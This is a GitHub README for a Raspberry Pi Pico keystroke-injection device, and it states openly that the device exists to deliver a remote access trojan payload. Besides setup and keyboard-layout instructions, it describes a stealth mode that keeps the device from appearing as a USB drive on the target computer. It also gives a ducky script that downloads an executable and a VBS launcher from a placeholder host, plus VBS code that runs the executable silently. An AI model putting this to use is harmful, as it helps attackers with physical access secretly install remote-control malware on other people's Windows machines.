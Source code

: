 # pi-pico-rubber-ducky

[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![MIT License][license-shield]][license-url]
[![Issues][issues-shield]][issues-url]


Aim is to run a R.A.T payload btw of a Raspberry Pi-Pico (rp2040) running ducky scripts. Part of : https://github.com/Denis-REMACLE/K-ptain.Ratz


### Using

1. To use this repo please download first the [Circuitpython .uf2 file](https://circuitpython.org/board/raspberry_pi_pico/) 
2. Plug the device into a USB port while holding the boot button. It will show up as a removable media device named `RPI-RP2`.
3. Jsut drag and drop the `.uf2` file into the root directory of the Pi Pico. The device will now reboot as `CIRCUITPY`.  
4. Download and copy the repo content to the Pico :
```sh
git clone https://github.com/nzkoxzu/pi-pico-rubber-ducky.git
```
```sh
cp -r pi-pico-rubber-ducky/* /media/username/CIRCUITPY/
```
5. [Create your own ducky script](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript) and save it as `payload.dd` in the Pico.
6. Careful, if your device isn't in setup mode, the device will reboot and after half a second, the ducky script will run.


# Setup mode

To edit the payload, enter setup mode by connecting the pin 1 (`GP0`) to pin 3 (`GND`), this will stop the pico-ducky from injecting the payload in your own machine. The easiest way to so is by using a jumper wire between those pins as seen bellow.

![setup-mode](https://raw.githubusercontent.com/nzkoxzu/pi-pico-rubber-ducky/main/images/setup-mode.png)

# USB enable/disable mode

If you need the pico-ducky to not show up as a USB mass storage device for stealth, follow these instructions.
1. Enter setup mode.
2. Copy `boot.py` to the root of the pico-ducky.
Copy your `payload.dd` script to the pico-ducky.
Disconnect the pico from your host PC. Connect a jumper wire between pin 18 (`GND`) and pin 20 (`GPIO15`). This will prevent the pico-ducky from showing up as a USB drive when plugged into the target computer.
Remove the jumper and reconnect to your PC to reprogram. The default mode is USB mass storage enabled.

![usb-boot-mode](https://raw.githubusercontent.com/nzkoxzu/pi-pico-rubber-ducky/main/images/usb-boot-mode.png)

# VBS silently starting malicious file 

For Windows, if you want to silently run `.exe` files you can run them with VBS. Your `payload.dd` should looks like this :

```dd
STRING curl.exe --output not_malicious_file.exe --url https://youwebsite.example/ressources/not_malicious_file.exe
ENTER
DELAY 1000
STRING curl.exe --output starter.vbs --url https://youwebsite.example/ressources/starter.vbs
ENTER
DELAY 1000
STRING wscript starter.vbs
ENTER
```
This will download `not_malicious_file.exe` and `starter.vbs`. The `starter.vbs` looks like this :

```vbs
Dim WShell
Set WShell = CreateObject("WScript.Shell")
WShell.Run "not_malicious_file.exe", 0
Set WShell = Nothing
```
This VBS file will launch `not_malicious_file.exe` and the `, 0` statement enable silent run.


# Changing Keyboard layouts
Copied from [Neradoc/Circuitpython_Keyboard_Layouts](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/blob/main/PICODUCKY.md)  

#### How to use one of these layouts with the pico-ducky repository.

**Go to the [latest release page](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/releases/latest), look if your language is in the list.**

#### If your language/layout is in the bundle

Download the `py` zip, named `circuitpython-keyboard-layouts-py-XXXXXXXX.zip`

**NOTE: You can use the mpy version targetting the version of Circuitpython that is on the device, but on Raspberry Pi Pico you don't need it - they only reduce file size and memory use on load, which the pico has plenty of.**

#### If your language/layout is not in the bundle

Try the online generator, it should get you a zip file with the bundles for yout language

https://www.neradoc.me/layouts/

#### Now you have a zip file

#### Find your language/layout in the lib directory

For a language `LANG`, copy the following files from the zip's `lib` folder to the `lib` directory of the board.  
**DO NOT** modify the adafruit_hid directory. Your files go directly in `lib`.  
**DO NOT** change the names or extensions of the files. Just pick the right ones.  
Replace `LANG` with the letters for your language of choice.

- `keyboard_layout_win_LANG.py`
- `keycode_win_LANG.py`

Don't forget to get [the adafruit_hid library](https://github.com/adafruit/Adafruit_CircuitPython_HID/releases/latest).

This is what it should look like **if your language is French for example**.

![CIRCUITPY drive screenshot](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/raw/main/docs/drive_pico_ducky.png)

#### Modify the pico-ducky code to use your language file:

At the start of the file comment out these lines:

```py
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS as KeyboardLayout
from adafruit_hid.keycode import Keycode
```

Uncomment these lines:  
*Replace `LANG` with the letters for your language of choice. The name must match the file (without the py or mpy extension).*
```py
from keyboard_layout_win_LANG import KeyboardLayout
from keycode_win_LANG import Keycode
```

##### Example:  Set to German Keyboard (WIN_DE)

```py
from keyboard_layout_win_de import KeyboardLayout
from keycode_win_de import Keycode
```

Copy the files keyboard_layout_win_de.mpy and keycode_win_de.mpy to the /lib folder on the Pico board
```
adafruit_hid/
keyboard_layout_win_de.mpy
keycode_win_de.mpy
```
<p align="right">(<a href="#top">back to top</a>)</p>

[contributors-shield]: https://img.shields.io/github/contributors/nzkoxzu/pi-pico-rubber-ducky.svg?style=for-the-badge&logo=appveyor&color=success
[contributors-url]: https://github.com/nzkoxzu/pi-pico-rubber-ducky/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/nzkoxzu/pi-pico-rubber-ducky.svg?style=for-the-badge&logo=appveyor&color=yellow
[forks-url]: https://github.com/nzkoxzu/pi-pico-rubber-ducky/network/members
[license-shield]: https://img.shields.io/github/license/nzkoxzu/pi-pico-rubber-ducky.svg?style=for-the-badge&logo=appveyor&color=orange
[license-url]: https://github.com/nzkoxzu/pi-pico-rubber-ducky/blob/master/LICENSE.txt
[issues-shield]: https://img.shields.io/github/issues/nzkoxzu/pi-pico-rubber-ducky.svg?style=for-the-badge&logo=appveyor&color=red
[issues-url]: https://github.com/nzkoxzu/pi-pico-rubber-ducky/issues
